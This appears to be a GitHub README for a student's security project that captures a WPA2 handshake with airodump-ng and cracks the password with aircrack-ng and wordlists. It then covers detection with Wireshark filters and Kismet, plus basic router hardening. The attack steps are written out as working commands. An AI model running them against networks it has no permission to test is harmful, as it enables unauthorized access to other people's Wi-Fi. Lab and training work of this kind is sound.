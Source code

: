 # Wi-Fi Security Analysis: Attacking & Defending WPA2 Networks

## 📌 Project Overview
This project demonstrates a **Wi-Fi security assessment** by attacking a WPA2-PSK network and implementing defensive measures to protect against real-world threats. 

✅ **Attack Scenario:** Capturing a WPA2 handshake and cracking the Wi-Fi password.  
✅ **Detection Methods:** Wireshark analysis, router logs, and intrusion detection tools.  
✅ **Defensive Measures:** WPA2-AES, MAC filtering, and security hardening.

---

## 🔥 1. Attack Execution: Capturing WPA2 Handshake

### **1.1 Setup: Enable Monitor Mode on TL Adapter**
```bash
sudo airmon-ng check kill  
sudo airmon-ng start wlan0  
iwconfig
```
📸 **Screenshot:** ![Monitor Mode](screenshots/Monitor_Mode.png)

### **1.2 Scan for Networks & Identify Target**
```bash
sudo airodump-ng wlan0  
```
📸 **Screenshot:** ![Network Scan](screenshots/Network_Scan.png)

### **1.3 Capture WPA2 Handshake**
```bash
sudo airodump-ng -c 5 --bssid 1C:3B:F3:73:99:4C -w capture wlan0  
```
📸 **Screenshot:** ![Handshake Capture](screenshots/Handshake_Capture.png)

### **1.4 Verify Handshake in Aircrack-ng**
```bash
sudo aircrack-ng capture-05.cap  
```
📸 **Screenshot:** ![Handshake Verification](screenshots/Handshake_Verification.png)

---

## 🕵️ 2. Detection: Identifying the Attack

### **2.1 Analyze Handshake in Wireshark**
- Open `capture-05.cap` in Wireshark.
- Apply filter: `eapol`
📸 **Screenshot:** ![EAPOL Handshake](screenshots/EAPOL_Handshake.png)

### **2.2 Expand Key Details in Wireshark**
- Expand **802.1X Authentication** → **Key Information**
📸 **Screenshot:** ![EAPOL Details](screenshots/EAPOL_Details.png)

### **2.3 Detect Deauthentication Attack in Wireshark**
- Apply filter: `wlan.fc.type_subtype == 0x0c`
📸 **Screenshot:** ![Wireshark Detection](screenshots/Wireshark_Detection.png)

### **2.4 Check Router Logs for Suspicious Activity**
- Log into **Archer C6 Router** → System Tools → Logs.
📸 **Screenshot (if any anomalies found):** `Router_Logs.png`

---

## 🔓 3. Cracking WPA2 Password

### **3.1 Run Aircrack-ng with RockYou Wordlist**
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 1C:3B:F3:73:99:4C capture-05.cap
```
📸 **Screenshot:** ![Password Cracking](screenshots/Password_Cracking.png)

### **3.2 If RockYou Fails, Use a Custom Wordlist**
```bash
echo -e "Test12345!\nTest12345\ntest12345!" > custom.txt  
sudo aircrack-ng -w custom.txt -b 1C:3B:F3:73:99:4C capture-05.cap  
```
📸 **Screenshot (if password is cracked):** ![Cracked Password](screenshots/Cracked_Password.png)

---

## 🛡️ 4. Defense Strategies: Securing Wi-Fi Against Attacks

### **4.1 Strengthen WPA2 Security**
- **Set Encryption:** WPA2-PSK with AES (**never TKIP**).
- **Disable WPS** (to prevent WPS PIN attacks).
📸 **Screenshot:** ![Secured Wi-Fi Settings](screenshots/Secured_WiFi_Settings.png)

### **4.2 Enable MAC Filtering**
- **Whitelist trusted MAC addresses** in router settings.
- **Block unknown devices from connecting.**

### **4.3 Detect Attacks Using Kismet (Optional)**
```bash
sudo kismet -c wlan0  
```
📸 **Screenshot (if attack is detected):** `Kismet_Detection.png`

---

## 🎯 Why This Project Matters for SOC Teams
🔹 **Real-World Threat:** Wi-Fi attacks are used in penetration testing and adversary simulations.  
🔹 **SOC Detection Relevance:** SOC analysts monitor for unauthorized deauth attacks and suspicious EAPOL packets.  
🔹 **Defensive Hardening:** This project demonstrates how to **detect & mitigate Wi-Fi attacks effectively**.

---

## 📌 Conclusion
This project **simulates a real-world Wi-Fi attack** and **demonstrates key cybersecurity defense mechanisms**. It is valuable for anyone looking to break into **SOC Level 1 roles, penetration testing, or cybersecurity research.**

**Next Steps:** 
- Implement **Wi-Fi Intrusion Detection** using ELK or Splunk.
- Automate attack detection with Python scripts.

🔗 **Follow my cybersecurity journey on LinkedIn & GitHub!** 🚀

